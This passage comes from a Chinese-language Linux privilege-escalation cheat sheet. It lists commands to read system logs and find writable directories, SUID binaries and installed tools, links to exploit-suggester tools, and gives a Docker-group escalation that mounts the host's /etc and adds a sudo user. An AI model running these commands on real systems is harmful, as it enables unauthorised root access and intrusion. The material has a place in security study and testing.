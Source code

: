 >cat /var/log/wtmp  
>cat /var/log/xferlog  
>cat /var/log/yum.log  
>cat /var/run/utmp  
>cat /var/webmin/miniserv.log  
>cat /var/www/logs/access_log  
>cat /var/www/logs/access.log  
>ls -alh /var/lib/dhcp3/  
>ls -alh /var/log/postgresql/  
>ls -alh /var/log/proftpd/  
>ls -alh /var/log/samba/  
  
### 查看可写/执行目录

>find / -writable -type d 2>/dev/null # world-writeable folders  
>find / -perm -222 -type d 2>/dev/null # world-writeable folders  
>find / -perm -o w -type d 2>/dev/null # world-writeable folders  
>find / -perm -o x -type d 2>/dev/null # world-executable folders  
>find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable & executable folders

### 查看安装过的工具

>find / -name perl*  
>find / -name python*  
>find / -name gcc*  
>...

### 提权信息收集工具

[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
[unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
[linprivchecker.py](https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py)


## Docker提权
docker组拥有启动docker的权限，此时如果将本地磁盘映射到docker里面并且用容器内的root权限修改，就可以读取宿主机的内容甚至添加拥有sudo权限的用户

>docker run -it –rm -v /etc:/etc ubuntu /bin/bash  
>adduser test  
>usermod -aG sudo test

## SUID提权
SUID是Linux的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行root提权。

**POC**

>find / -perm -u=s -type f 2>/dev/null
>find / -user root -perm -4000 -exec ls -ldb {} ;
>find / -user root -perm -4000 -print 2>/dev/null

### Find
